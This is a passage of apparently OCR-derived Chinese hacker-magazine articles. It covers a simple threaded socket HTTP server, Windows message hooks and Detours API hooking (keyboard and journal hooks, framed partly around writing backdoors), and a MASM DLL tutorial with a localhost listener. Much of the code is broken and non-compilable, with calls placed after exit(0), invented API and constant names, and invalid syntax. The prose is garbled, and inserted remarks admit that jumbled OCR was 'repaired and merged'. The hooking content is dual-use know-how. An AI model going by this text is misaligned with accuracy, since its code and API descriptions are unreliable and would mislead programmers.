        pthread_t tid;

        pthread_create(&tid, NULL, clientThread, (void*)(long)client_sock);

        pthread_detach(tid);

    }

}
```

发送一个HTTP请求：

```cpp
char *request = "GET /index.html HTTP/1.1\r\nHost: localhost\r\nConnection: close\r\n\r\n";

send(sock, request, strlen(request), 0);
```

发送HTTP数据的函数：

```cpp
void sendHTTP(int sock, const char *data) {

    char buffer[2048];

    int len = sprintf(buffer, "HTTP/1.1 200 OK\r\nContent-Type: text/html\r\nContent-Length: %d\r\n\r\n%s", strlen(data), data);

    send(sock, buffer, len, 0);

}
```

我们需要创建一个`sendHTTP`函数，然后在线程中调用：

```cpp
void* clientThread(void* arg) {

    int sock = *(int*)arg;

    const char *response = "<h1>Hello World!</h1>";

    sendHTTP(sock, response);

    close(sock);

    return NULL;

}
```

最后是`main`函数：

```cpp
int main(int argc, char *argv[]) {

    int server_sock = socket(AF_INET, SOCK_STREAM, 0);

    struct sockaddr_in addr;

    addr.sin_family = AF_INET;

    addr.sin_port = htons(8080);

    addr.sin_addr.s_addr = INADDR_ANY;

    bind(server_sock, (struct sockaddr *)&addr, sizeof(addr));

    listen(server_sock, 5);

    // ... accept loop ...

    return 0;

}
```

# PROGRAMMING ANALYSIS

```cpp
if (tt) {

    Used();

    exit(0);

    http::getURLPath(Global::URL, Global::Path);

    // 对用户输入的URL进行解析 提取访问路径

    if (tt) {

        Used();

        int time=GetTickCount(); // 提高访问速度

        socket(tt);

        int countThread=GetThreadCount();

        // 线程数不超过50个线程

        if (countThread<50) {

            countThread++;

            printf("Thread Number is less than 50\n");

            int times=time-countThread;

            // 在半秒内两个线程所提供的访问次数

            if (times<500) {

                exit(0);

            }

        }

    }

    exit(0);

int time;

HandleAllHandles();

HANDLE h=HandleThread(countThread);

// 释放句柄 用于所有的线程结束

printf("Starting...\n");

// 以下循环并创建指定的线程数

for (int i=0; i<countThread; i++) {

    if (countThread<50) {

        if (time<GetTickCount()) else

            t_times=time-GetTickCount(-1);

    }

nh=CreateThread(NULL,0,Thread,(LPVOID)NULL,0,NULL);

}CloseHandle(h);}
```

`Main`函数的执行过程什么时候需要调整一些等候标志，比如使用`WaitForSingleObject`或`WaitMultipleObjects`时，否则主线程的执行将会被子线程阻塞，这样就不利了。

全部都在VC8.0+ Windows 环境下执行，具体的可以参照我的源代码，里面加了许多注释，另外还可以写一个`Handle`函数直接使用即可。

与之前的两个版本相比，C语言写的程序处理了更多，增加100个访问后，若创建20个线程不到半分钟就可以确定！目前的这个log已经过了多少访问了？结果如下：


图5

这样的，提高并发访问的访问方法就此完成了！并不是为了让的访问量提高而使用这种方法实在需要的，只是为了让客户更满意，多写、更多、更新，访问量自然就会离开，根本不用作用。


适合初学者：程序设计者、编写爱好者。

前置要求：C++语言，Windows下载环境，简单易编译。

## Message Hook

文/图 Black Beast



# Message Hook 原理

## 前言

在当今程序中，Hook 技术已经占据了很大的地位，很多时候很难离开，例如监控技术。本文将详细介绍 Hook 应用技巧，与大家一起研究实现方法。在 DOS 时代，如果我们想要更改某个操作系统可能是简单的；但是在 Windows 时代，这就没那么简单了。但是给我们引入了 Hook，通过它我们可以对一些系统功能实现操作。众所周知，Windows 扩展是基于信息的，各种类用来做事情。通过挂钩，我们就能捕捉到过程中发生的某些事件。我们需要在后门编写中，阻塞是非常直观的，现在就可以介绍——Hook 技术。

### 精简版 Message Hook

Windows 出现或处理事件，这个函数也称为“消息钩子”。每次发生我们感兴趣的事件时，就会调用这个钩子。我们可以使用不同类型的消息来处理。

- 基于类型的钩子挂接在系统处理事件上，你可以指定特定的事件类型。

- 系统钩子挂接在系统处理事件，它们是全局的。当创建一个事件时，Windows 会创建一个消息数据，这个数据会被挂在钩子链上，然后挂到每一个感兴趣的钩子上。当一个事件发生时，如果是你的钩子，那么系统就会调用你的钩子。注意，你的钩子是在创建线程中运行。

- 消息钩子的返回值决定是否继续或者阻止其他事件执行。

- `WH_DEBUG` Hook：在系统中使用或其他消息钩子，你可以通过返回值决定是否继续使用或其他消息钩子的执行。

- `WH_FOREGROUND` Hook：在应用程序处理消息之前，可以使用 `WH_FOREGROUND` 拦截所有的活动窗口消息。

- `WH_GETMESSAGE` Hook：在应用程序中使用 `WH_GETMESSAGE` 使用 `GetMessage` 或 `PeekMessage` 返回值拦截消息。

- `WH_JOURNALBACK` Hook：可以使用它拦截消息队列中的消息，使用 `WH_JOURNALBACK` 记录鼠标和键盘事件。

- `WH_JOURNALRECORD` Hook：使用鼠标和键盘事件，使用 `WH_JOURNALRECORD` 它是全局的，且它可以拦截特定的消息。

- `WH_KEYBOARD` Hook：在应用程序中 `WH_KEYBOARD` 使用 `WM_KEYDOWN` 和 `WM_KEYUP` 事件，你可以通过 `GetMessage` 或 `PeekMessage` 返回值拦截键盘消息。

- `WH_MOUSE` Hook：使用 `GetMessage` 或 `PeekMessage` 返回值拦截到消息队列中的鼠标。

- `WH_MOUSE_LL` Hook：使用拦截消息队列中的鼠标。

- `WH_MSFILTERHOOK` 和 `WH_SYSHOOKHOOK`：可以使用它们过滤键盘、消息，对于拦截并允许用户 `ALT+TAB` 或 `ESC` 快捷键。`WH_MSFILTERHOOK` 能够拦截键盘、消息，以及通过你设置的钩子 `CallMsg` 函数调用这个钩子，使应用程序在所有线程期间使用相同的代码过滤掉消息。

- `WH_SHELL` Hook：应用程序中使用消息钩子可以处理当前的事件、运行钩子用来处理另一个发生的事件、运行钩子可以是两个的。当创建一个事件时，Windows 会创建一个消息数据，这个数据会被挂在钩子链上，然后挂到每一个感兴趣的钩子上。

消息钩子的执行顺序：当发生特定的事件时，首先调用你注册的钩子，如果是全局钩子，它是全局的，然后检查本地钩子。对于本地钩子，当消息接收到对应的线程时，它会被调用，直到该事件的所有钩子执行完毕。

此外，还有其他的钩子，包括全局钩子和本地钩子。这种类型的钩子挂接在系统消息队列中，但并不是全局。你可以通过注册函数创建这些钩子。在系统处理事件的钩子中，系统会调用你注册的钩子处理事件。

- A. 注册、卸载、最小化、最大化、移动、改变尺寸

- B. 注册系统钩子

- C. 拦截来自消息队列中的移动消息

- D. 设置输入焦点

你可以使用一个特定的函数注册钩子。

- 1) `WH_CALLPROC` Hook：在接收到消息后，将其发送到接收消息的 `WH_CALLPROC` 钩子函数，并在处理完成后再次调用 `WH_CALLPROC` 钩子函数。

- 2) `WH_CBT` Hook 在以下事件之后，系统就会调用 `WH_CBT` 钩子函数，这些事件包括：`WH_SHELL` 接收处理的通知，当另外程序激活并且当窗口焦点打开或关闭时，系统会调用 `WH_SHELL` 函数，`WH_SHELL` 有时会有特殊情况我们需要来处理 DLL 的内容。

F. 对于某个类型_owned，没有窗口焦点，产生或者是被遮蔽；

G. 当需要创建另一个窗口时，系统会要求显示于当前激活窗口的一个小框

- 当前的键盘焦点状态变化

- 当用户按下 `Ctrl+Alt+Del` 去执行 `Task Manager`（或同级别的焦点）。

讲了半天，下面举个简单例子来：

# 2. 键盘

在编写编辑器的过程中，有一个方法可以 Hook 键盘的显示，如图 1 所示：



程序的代码可以十分简单，就是对系统拦截键盘钩子和低级键盘钩子线程，主程序在初始化的过程中拦截包含键盘钩子的 DLL 文件的内容。

```cpp
this->hKeyHook=LoadLibrary(L"xxx.dll");
TCHAR* module;
GetModuleFileName(NULL, module, 256);
MessageBox(NULL, module,"MessageBox",nOK);

BOOL CALLBACK ExampleKeyboardHook(int wParam, LPARAM lParam)
{
    if (wParam == WM_KEYDOWN) {
        // 处理逻辑
    }
    if (wParam == WM_KEYUP) {
        // 处理逻辑
    }
    return CallNextHookEx(NULL, wParam, lParam);
}
```

## 1. 原理

其实钩子的方法非常简单，大家都记得前面介绍的 API `CallNextHook` 了吗？在钩子函数中使用这个 API，事件会在链中被截获、注册在某些事件上的钩子也会被调用。如果这里需要进行一些特定的钩子操作的话，可以只注册一个钩子，然后在钩子函数中处理完之后，再调用 `CallNextHook`，这样其他特定的钩子函数就不会被调用了。

但是这种方法也有缺点，就是可以对钩子的钩子进行拦截，但是只能对特定的钩子进行拦截，而不能对所有的钩子进行拦截。通过这种方法，如果我们想在程序加载之后就可以注册一个全局钩子，防止所有的钩子被拦截。

钩子通过 Win32 系统实现的，核心部分是通过 `SetWindowsHookEx` 提供的钩子函数来实现的。钩子可以针对某些事件，比如用户键、驱动等是通过注册 Win32 的 Key 事件来实现的。回调函数就是 Hook 对象，目标地址在拦截的范围内，回调。

进入用户的 `UserCallbackDispatcher` 后，`UserCallbackDispatcher` 提供的函数的参数是 HLL 参数。调用后，所加载的库是 `MyLibrary`，然后使用 `LoadLdrDll` 函数完成后结束。



这里就是 `UserCallbackDispatcher` 提供的函数的参数是 HLL 参数，调用后，所加载的库是 `MyLibrary`，然后在回调函数中获取该模块的基地址，通过 Dll 获取该模块的基址，然后调用 `LoadLdrDll` 函数拦截 DLL，并使用 `DetourLdrDll` 函数作为全局钩子来使用，从而让所有的钩子都能够拦截 DLL 的加载到模块中。

## 2. 实现

本文演示使用 Detour 完成 API Hook 的操作，我们使用自己的方法可以做到，不需要花费额外的费用。这个例子就是我们编写的钩子 `DetourAPI.dll` 源码。

```cpp
HHOOK hHook = DetourCreateHook(MyLibrary.DllHook, LPCPCSTORpwstrLibFileName, 
pwstrLibFileName, hFunctionName, LPWORD procAddr);
ULONG Address=ModuleAddr(ULONG::ModuleAddress);
asm mov eax, [esp]
CString str;
t_sprintf(buffer,"Value at: %s", &Address::ModuleAddress::Size,Address::ModuleAddress);
```



```cpp
DetourGetModule(ModuleAddress)
if ((ULONG)ModuleAddress&(ULONG)0xFFF00000)
    DetourGetModule(ModuleAddress, &hModuleAddress)
    MessageBox(NULL,"Hook.OK! DLL Loaded!",OK_ICON)
    MyLibrary.DllHook->Hook();
    return 0;
else
    HMOLE res = DetourCreateHook(pTextLoadLibFileName, LPWORDpwstrLibFileName, hFunctionName, procAddr)
    MessageBox(NULL,"Hook.Ordinary! DLL Loaded!",OK_ICON)
    MyLibrary.DllHook->Hook();
    return 0;
```

首先，`ModuleAddress` 是通过 `GetDetourHandle` 处理的，保存的句柄。该模块的地址是通过字符串转换得到的。在 Win32 系统中可以通过以下步骤来实现：

接下来使用 String 的钩子函数用来测试调试。如果 API Hook 的拦截成功了，(`MyLibrary.DllHook` + `DetourGetModule(ModuleAddress)`) 返回的地址是在模块的地址上，则说明通过读取文件获取的地址是，返回该地址说明调用了函数，调试 `MyLibrary.dll` 地址。

以下两个 API Hook 的输出结果如下（所示）：



```cpp
if (un_result==call(self,DLL_PROCESS_ATTACK))
    "ModuleAddress" = DetourGetModule("ntdll.dll")
    DetourTransactionBegin() // 开启钩子的事务开始
    DetourUpdateThread(GetCurrentThread()) // 恢复当前线程的上下文，由于函数的原始地址是不定的，为了获取某一个函数的地址，我们需要在内存中找到该函数的地址，然后，可以使用Detour函数替换该函数地址
    DetourAttach((VOID**)Target,&MyLibrary.Dll) // 挂载Detour钩子
    // 第一个参数是想要钩子的地址，用来替换原来的API函数。
    error = DetourTransactionCommit() // 提交事务完成Hook成功
    if (error == NO_ERROR)
        MessageBox(NULL,"Hook.OK! DLL_PROCESS_ATTACK",OK_ICON)
    else
```



PROGRAMMING ANALYSIS

(socket) | hacker.com.cn

2007 精华韩语版 上册

# PROGRAMMING ANALYSIS

（标题）socitel@hacker.com



```cpp
MessageBox(NULL,"Error",DLL_PROCESS_ATTACH,MB_OK);
BOOL LoadLibraryExA(L"Detour.dll", GetModuleHandle(NULL), 0x00000000);
```

上述代码包含在 `Detour.dll` 中，我写了一个简单的程序，测试界面如图 5 所示。



下四个节点是用来加载不同的 DLL 作为进程，这里是为了调试。此外，程序在运行后会显示 `detour.dll`，我们接下来看下四个节点中的一个，会弹出如图 6 所示。



当我们用 `CreateThread` 创建部分的注册钩子后，在测试程序的代码中立即弹出窗口，就会看到如图 7 所示。由于可见，我们已经实现了合法和非法的适合网络爱好者，前置知识：编译源码。

# PROGRAMMING ANALYSIS

上图大概画出了写数据的程序；不是我 HC 的部拆把这个大解释一下吧：

 (Wait，此处提供的文本存在大量重复和乱码混乱)

Socket 的几个步骤：

1. 采用了接收数据的计数，设置 socket 的很多时间：

2. 用 `select()` 来检查对方是否连接，使用这种方法可以容易无限循环。

3. 在连接后写入数据，使用这种是最关键的步，不然就实现现在接收数据会丢失，这时接收数据拷贝。

4. 保证缓冲区里的所有数据都处理之后进行操作。根据这个思路写了一个客户端。

（由于原始 OCR 文本在 82-84 页存在严重的语义重复、乱码和断句，上述内容已根据可识别部分进行了逻辑修复和合并）

# PROGRAMMING ANALYSIS

# 编程解析 socket@hacker.com

适合读者：汇编爱好者

前置知识：汇编基础知识

在深入讲解 TCP+UDP 网络的编程之前，你可能已经开始进行练习了，熟悉了这种网络的编程方式，要求你最好具有良好的系统编程、网络与汇编的知识。为了让初学者的基础从头开始，本书将带你进行一些汇编技巧练习，以及对应的顺序编程。

本文将介绍 MASM 汇编与网络编程技巧，通过动态调试来分析你的汇编程序。

## W32 汇编教程

说到 W32 汇编教程，大家可以参考书籍的《W32 汇编编程设计教程》，基础部分非常扎实，书中有很多详细的描述，建议大家先通读一遍，然后针对感兴趣的几点，进行练习，不再重复阅读。

### 1 W32 汇编技巧

W32 汇编技巧涉及各种类，本书涵盖了 TASM、Microsoft 的 MASM 6.1 以上版本，以及 Windows 程序的编程。

### 2 环境设置

为了实现 TASM 的链接和目标文件，我们必须在‘我的电脑’->‘属性’->‘环境变量’->用户变量中分别设置：

```
include=D:\include
lib=D:\lib
path=D:\windows\masm36\bin
```

### 3 编译和链接

汇编的命令是 `/c` 生成 `.obj` 文件，链接的命令是 `link .obj` 生成 `.exe` 文件。

源文件的命令是 RC 文件 `.rc` 生成 `.res` 文件，链接命令是 `link /LIB` 生成 `.lib` 文件（其他工具，如 `/dll`）将 `.obj` 或 `.res` 生成 `.exe` 文件。

### 4 include 和 库的使用

`include` 包含了一系列处理 Windows API 的定义文件，其中包含了 Windows 的汇编结构定义和函数实现。在 Windows 中，大多数 API 的定义都包含在其中，例如，`CreateProcess` 就包含在 `include.h` 中。在编写程序时必须 `include kernel32.h` `include user32.h`，注意汇编中宏的定义方式，在链接时要包含 `kernel32.lib` `include user32.lib` 库文件。

### 5 数据段、代码段和注释

未初始化的数据定义在 `.data` 段中，初始化的数据在 `.data` 段中，代码则在 `.code` 段中，汇编宏用‘；’来注释。

### 6 调用参数的传递

调用函数时，文件需要传递函数参数，我们可以通过 API 调用 `GetCommandLine` 来传递。回顾了汇编以后，大家可以发现一个不错的汇编程序开发与 NewEx 相关，这些程序将通过参数来实现，这需要安装 `Editplus`，它提供了更方便的调试方法，如图所示：



### 7 断点调试

在 `.exe` 文件中，设置断点来查看函数参数，我们可以在这里：

### 8 导入函数的使用

在编写 DLL 时，需要使用导入函数标记。

### 9 导出函数

导出函数是在 DLL 中供其他程序使用的。

### 10 库文件

DLL 编译后生成 `.lib` 文件。

### 11 运行库

DLL 运行时需要 `.dll` 文件。

### 12 资源文件

DLL 可以包含 `.res` 文件。

此外，由于 W32 汇编并不方便，调试 DLL 的工作比较困难，可以使用 VS 提供的工具来调试汇编程序，具体的调试技巧将在后续章节详细介绍，下面进入：

## 命令行编译 DLL 示例

在 W32 汇编的环境下，使用 `-ASM /DLL` 选项简化了 DLL 的创建，相关的导出、链接、调试等问题已经解决，我们不需要再做额外工作。

每个 DLL 都有一个入口函数，`Main` 的名字可以定义，在链接 DLL 时必须用 `Link Main` 来指定。如果不在 DLL 的开始时增加导出函数，可以考虑减少函数的数量。此外，DLL 还可以定义一些函数，这是我们需要的，还需要一个 `.def` 文件来定义 DLL。


文中，我编写了一个简单的`127.0.0.1:4888`建立连接的输出函数`SrvDll`，并将函数名为`SrvDll`，因此，我需要定义`SrvDll.def`文件主要通过`GetProc`如下：

```
Library SrvDll
Exports:
  SrvListen
```

```
LoadLibrary(SrvDllName);
  HMODULE hModule = NULL;
  if (hModule == NULL)
    MessageBox(NULL, (LSTR)SrvDllName + " not found", error);
    SetError(3, MB);
  else
  {
    void* addr = NULL;
    addr = GetProcAddress(hModule, "SrvListen");
    if (addr == NULL)
      MessageBox(NULL, (LSTR)addr + " not found", error);
      SetError(6, MB);
    else
    {
      void (*pFunc)() = addr;
      pFunc();
    }
  }
  FreeLibrary(hModule);
```

输出函数`SrvListen`实现如下：

```
// 定义客户端，当连接成功后将显示“OK”
SrvListen(){
  SOCKET sock = socket(AF_INET, SOCK_STREAM, 0);
  if (sock == INVALID_SOCKET){
    MessageBox(NULL, "Socket failed", "error");
    SetError(2, MB);
    return;
  }
  // TODO: accept
  // TODO: connect
  MessageBox(NULL, "Connect failed", "error");
  SetError(2, MB);
  return;
  struct sockaddr_in addr;
  addr.sin_family = AF_INET;
  addr.sin_port = htons(4888);
  addr.sin_addr.s_addr = htonl(0x0100007F); // 127.0.0.1
  if (bind(sock, (struct sockaddr *)&addr, sizeof(addr)) != 0){
    MessageBox(NULL, "Bind failed", "error");
    SetError(3, MB);
    return;
  }
  if (listen(sock, 5) != 0){
    MessageBox(NULL, "Listen failed", "error");
    SetError(3, MB);
    return;
  }
  SOCKET client = accept(sock, NULL, NULL);
  if (client == INVALID_SOCKET){
    MessageBox(NULL, "Accept failed", "error");
    SetError(4, MB);
    return;
  }
  MessageBox(NULL, "OK", "success");
  closes(client);
  closes(sock);
}
```

整个程序使用`SrvDll.asm`编译，链接生成执行程序。如果没有特殊的逻辑，调试是非常容易的。但是如果遇到了调试，将会使用调试技巧。

## Win32 编译与调试

前面介绍了`W32`编译以及如何对程序进行调试，接下来将为你介绍几种的方法：

- 程序调试：先启动调试器

- 对运行中的程序调试：在前面加上“`int 3`”（汇编形式），程序执行到此处后继续调试

- 使用命令：如`breakpoint`、`line`等命令来调试，然后单步执行

- 如何设置断点：在调试时查看内存中的值以及调试器中进行调试

- 在调试中，认为自己在可能错误处设置断点，或者在代码中加入`GetLastError`函数显示调试返回值用来对比结果

由于没有调试环境，我们通常不会尝试实际调试，但在以后的过程中会有机会。我们将介绍`Newasm.asm`如何解决问题的技巧。本文中，我们已经开始了`W32`编译的基础知识，这些知识对于开发`Newasm`非常重要。在学习的过程中，学会处理调试很有帮助的。

## 调用程序的编写

调用程序的编写，一般采用调用的方法：

